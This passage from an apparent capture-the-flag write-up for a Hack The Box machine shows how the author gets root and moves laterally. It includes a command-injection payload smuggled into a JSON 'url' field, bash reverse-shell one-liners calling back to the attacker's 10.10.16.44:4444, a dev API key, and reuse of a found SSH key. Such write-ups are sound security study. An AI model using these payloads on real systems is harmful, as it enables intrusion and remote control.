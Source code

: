 ### Getting a Shell as Root:

+ Start a listener 

    ```bash
    rlwrap -cAr nc -lvnp 4444 -s 0.0.0.0
    ```
+ Run our reverse shell command
    ```bash
    curl -s -X POST http://intranet.ghost.htb:8008/api-dev/scan  -H 'X-DEV-INTRANET-KEY: !@yqr!X2kxmQ.@Xe' -H 'Content-Type: application/json' -d '{"url":"https://test.com | bash -i >& /dev/tcp/10.10.16.44/4444 0>&1 "}'
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*C3xETi55aEvGE20UBWAwZg.png)

From the first sight of the hostname, it seems to be a container. `.dockerenv` ensures our thoughts and `docker-entrypoint.sh` is the entry point that start when running the container

![](https://cdn-images-1.medium.com/max/1000/1*ZUiMbEfe37cbDWStf87jVg.png)

Checking the entrypoint script

![](https://cdn-images-1.medium.com/max/1000/1*ClBG-Mc0BxUKNpPb6GGpeg.png)

Nothing important just writes an SSH configuration to `/root/.ssh/config` then execute the `ghost_intranet` binary

Checking for SSH keys, i Found an ssh key for `florence.ramirez@ghost.htb` on workstation **`dev-workstation`**

![](https://cdn-images-1.medium.com/max/1000/1*xwJlfZq3Iosy83D_zY8o_w.png)

There were no external port open for ssh so i would use it locally

```bash
ssh -i florence.ramirez@ghost.htb@dev-workstation:22 florence.ramirez@ghost.htb@dev-workstation
```

This `Pseudo-terminal` warning typically appears when you’re not running the SSH command interactively

![](https://cdn-images-1.medium.com/max/1000/1*COjYBchMxkhkE5n2bKpkiQ.png)

#### Get a reverse shell from this `stdin`

+ Start listener on local host
    ```bash
    rlwrap -cAr nc -lvnp 4444 -s 0.0.0.0
    ```
+ Execute this shell code on the non interactive ssh
    ```bash
    bash -i >& /dev/tcp/10.10.16.44/4444 0>&1
    ```
![](https://cdn-images-1.medium.com/max/1000/1*thwpUwT3DRRv6x4sqCZeHw.png)
